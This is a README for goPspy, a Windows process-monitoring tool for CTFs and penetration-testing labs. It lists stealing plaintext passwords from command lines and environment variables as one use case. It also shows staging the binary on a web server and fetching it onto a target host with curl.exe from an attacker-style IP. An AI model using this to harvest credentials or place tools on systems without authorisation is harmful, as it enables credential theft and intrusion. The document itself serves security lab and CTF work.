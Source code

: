 ######
goPspy
######

| Same concept as pspy but for windows, using Golang.
| For files and pipes monitoring : https://github.com/charlesgargasson/gofspy
|
| Use cases

* Detect any recurring/planned activity on machine (usefull for bots into CTFs challenges)
* Steal clear passwords from cmdline or env
* Check for (unwanted) privileges

|
| Similar projects :

* https://github.com/xct/winpspy (include files monitoring as well)

|

| Retrieved infos when you have rights on process

* PROCESS_QUERY_INFORMATION|windows.PROCESS_VM_READ
    * cmdline
    * workdir
    * environment
    * user
    * session
    * privileges
    * restricted
    * elevated (UAC status)
    * integrity level
    * pid
    * exepath
* PROCESS_QUERY_INFORMATION
    * user
    * session
    * privileges
    * restricted
    * elevated (UAC status)
    * integrity level
    * pid
    * exepath
* PROCESS_QUERY_LIMITED_INFORMATION
    * pid
    * exepath

|

| Retrieved infos if unable to open any handle

* pid
* exename

|

*****
Build
*****

| crosscompile

.. code-block:: bash

    sudo bash dockerbuild.sh
    sudo cp bin/gopspy.exe /var/www/html/
    sudo cp bin/gopspy32.exe /var/www/html/
    sudo chmod 644 /var/www/html/gopspy*.exe

|
| Pre-compiled releases, for lab/ctf (don't trust binaries from strangers)

- https://dl.offensive.run/compiledmyself/gopspy.exe
- https://dl.offensive.run/compiledmyself/gopspy32.exe

|

*****
Usage
*****

| The program run indefinitely

.. code-block:: bash

    curl.exe http://10.10.14.121/gopspy.exe -o gopspy.exe
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gopspy.exe"
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gopspy.exe" -ArgumentList "-getenv"
    # wget http://10.10.14.121/gopspy.exe -O gopspy.exe
    
.. code-block:: bash

    Stop-Process -Name "gopspy"
    taskkill /F /IM gopspy.exe
    
|

******
Output
******

.. code-block::

    -------------------------------------------------- 16:20:34 --------------------------------------------------

    PID: 9252
    EXE: msedge.exe
    CMD: "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start
    DIR: C:\Program Files (x86)\Microsoft\Edge\Application\134.0.3124.72\
    ELEVATED (UAC): false
    RESTRICTED: false
    INTEGRITY: MEDIUM
    USER: w11\user
    SESSION: 1
    PRIVILEGES:
    - SeUndockPrivilege: false
    - SeIncreaseWorkingSetPrivilege: false
    - SeTimeZonePrivilege: false
    - SeShutdownPrivilege: false
    - SeChangeNotifyPrivilege: true
    PTREE: 5436 > 5484 explorer.exe > 9252

    -------------------------------------------------- 16:21:55 --------------------------------------------------

    PID: 15952
    CMD: "C:\Windows\system32\whoami.exe"
    DIR: C:\Users\user\Desktop\
    ELEVATED (UAC): false
    RESTRICTED: false
    INTEGRITY: MEDIUM
    USER: w11\user
    SESSION: 1
    PRIVILEGES:
    - SeShutdownPrivilege: false
    - SeChangeNotifyPrivilege: true
    - SeUndockPrivilege: false
    - SeIncreaseWorkingSetPrivilege: false
    - SeTimeZonePrivilege: false
    PTREE: 5436 > 5484 explorer.exe > 17436 powershell.exe > 15952

|

***********
Third Party
***********

| goPspy don't relies on third party libraries

|